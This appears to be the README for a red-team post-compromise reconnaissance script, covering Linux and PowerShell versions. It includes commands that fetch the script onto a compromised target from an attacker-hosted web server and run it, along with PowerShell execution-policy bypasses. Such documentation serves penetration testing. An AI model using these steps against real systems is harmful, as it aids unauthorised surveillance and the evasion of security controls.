 # Internal Reconnaissance Phase

An internal investigation is carried out to gain knowledge about the compromised system. The aim is to obtain information that may be of interest for further action. System-specific tools are often used for this purpose.

This script reveals various information ([see Checks](#checks)) of a Linux system that may be useful in Internal Reconnaissance. For windows systems there is also a powershell script available. Check the [Windows](#windows) part for more information.

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/internal-recon/internal-recon.sh
sh internal-recon.sh
```
Local network:
```sh
# Host
sh internal-recon.sh -w
# Target
curl -LJO <Host>:8000/internal-recon.sh
sh internal-recon.sh
```

### Parameters

```sh
sh internal-recon.sh -h

Usage: internal-recon.sh [options]

Options:
-h    Show this help message
-w    Serves an local web server for transferring files

Output:
-c    No colours. Without colours, the output can probably be read better
-q    Quiet. No banner and no advisory displayed
```

## Checks

Script collecting information about:  

- System
- Network
- User & groups
- Jobs/tasks
- Services/processes
- Software
- Interesting files
- Container

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Windows

This powershell script is intended to serve as a template and is far from a finished script. 
It does simple internal recon.

### Usage

From github:  
Download powershell script from github and run it:
```
.\internal-recon.ps1
```
Local network:  
Start webserver with -w
```
# Host
sh internal-recon.sh -w
```
Download script from `http://<Host>:8000/` an run it:
```
.\internal-recon.ps1
```

## Results

Results saved to files in current directory and printed to terminal.

### Execution Policy Bypass

If there are problems with the Execution Policy on Windows, try:
```
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
# or
Get-Content .\internal-recon.ps1 | PowerShell.exe -noprofile -
```
or check https://gist.github.com/adithyan-ak/b5d0f2f98784e55f6edee248c85b4c5f for possible bypass commands.

-----

## Additional Information

### Search files and directories in Linux

Examples:
```
# search files and directories by keyword within "/" directory (case insensitive)
sudo find / -iname <keyword> 2>/dev/null

# search directories by keyword within "/" directory (case insensitive)
sudo find / -type d -iname some_directory 2>/dev/null

# search files with specific file extension within "/home" directory (case sensitive)
sudo find /home -type f -name "*.conf"

# search files with executable permission
sudo find /home -perm /a=x
```
